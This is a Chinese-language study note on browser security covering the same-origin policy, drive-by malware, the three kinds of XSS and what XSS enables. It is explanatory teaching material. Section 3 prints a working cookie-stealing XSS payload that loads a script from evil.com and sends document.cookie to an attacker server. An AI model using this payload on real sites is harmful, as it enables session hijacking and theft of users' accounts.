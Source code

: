 #第二篇 客户端脚本安全
---
##第2章 浏览器安全

1. **同源策略（Same Origin Policy）**是一种约定，它是浏览器最核心也是最基本的安全功能。**浏览器的同源策略，限制了来自不同源的“document”或脚本，对当前“document”读取或设置某些属性**。影响源的因素：**host（域名或者IP地址），子域名，端口，协议**。

   值得注意的是，对于当前页面来说，页面存放JavaScript文件的域并不重要，重要的是加载Javascript的页面所在的域是什么，通过这样一段代码描述。

   ```
 <script src=http://b.com/b.js></script>
```


   这段代码是a.com页面上加载了b.com上的b.js，但是b.js是运行在a.com页面上的，因为对于当前打开的页面（a.com）来说，b.js的Origin就应该是a.com，而不是b.com。

2. XMLHttpRequest受到同源策略的约束，不能够跨域访问资源，在进行AJAX开发时要注意这有点。技术发中中，W3C委员会制定出了XMLHttpRequest跨域访问标准，通过目标域返回的HTTP头来授权是否允许跨域访问。

3. 在网页中插入一段恶意代码，利用浏览器漏洞执行任意代码的攻击方式，就做**挂马**。

##第3章 跨站脚本攻击（Cross Site Script，XSS）

1. 跨站脚本攻击，英文全称为Cross Site Script，与层叠样式表（Cascading Style Sheet，CSS）重复了，所以使用了XSS。XSS攻击，一般是指黑客通过各种方式篡改了网页，插入了恶意代码，用户在浏览网页时，控制用户浏览器的一种攻击。一开的时候，这种攻击的的演示案例是“跨域”的，所以叫做“跨站脚本”，现在，前端技术的发展使得跨域是否已经不重要，由于历史的原因，还是叫做XSS。

2. XSS根据效果分成三类：

   * 反射型XSS：只是简单的用户输入的数据**反射**给浏览器，也就是说，黑客往往需要诱使用户点击一个恶意连接，才可能攻击成功，反射型XSS也叫做**非持久型XSS**（Non-Persisent XSS）。
   * 存储型XSS：它会把用户输入的数据**存储**在服务器上，具有非常高的稳定性。一个常见场景，黑客写一篇含有恶意代码的博客，文章发表后，所有访问这篇文章的用户都会执行这些恶意代码。这类XSS也叫做**持久型XSS**（Persisent XSS）。
   * DOM Based XSS：这种XSS不是按照**数据是否保存在服务器上**区分的，按照原理，DOM Based XSS应该算是反射型XSS，但是它的形成比较特殊，安全专家专门提出了将它单独分为一类。
 
 3. 一个简单的XSS Payload
 
    一个最常见的XSS Payload就是读取浏览器的Cookie对象，从而发起**Cookie劫持**攻击。攻击者首先加载一个远程脚本，这样可以有效的避免在URL的参数中写入大量的Javascript。
 
    ```
  http://www.a.com/test.html?abc="><script src=http://www.evil.com/evil.js></script>
 ```
    真正的攻击脚本写在这个远程脚本evil.js中。
 
    ```
  var img = document.createElement("img");
  img.src = "http://www.evil.com/log?" + escape(document.cookie);
  document.body.appendChild(img);
 ```
   这段代码在页面中插入了一张不可见的图片，同时把cookie对象当做参数发向了攻击者的服务器。这样就构造了最简单的一个窃取cookie的XSS Payload。

4. XSS都能干什么

   * 构造Get和Post请求直接调取系统的功能。
   * XSS钓鱼。
   * 识别用户浏览器。
   * 识别用户安装的软件。
   * CSS History Hack，通过style的visited属性，因为如果用户访问过某个页面，那么这个连接的颜色会不一样。
   * 获取用户的真实IP。
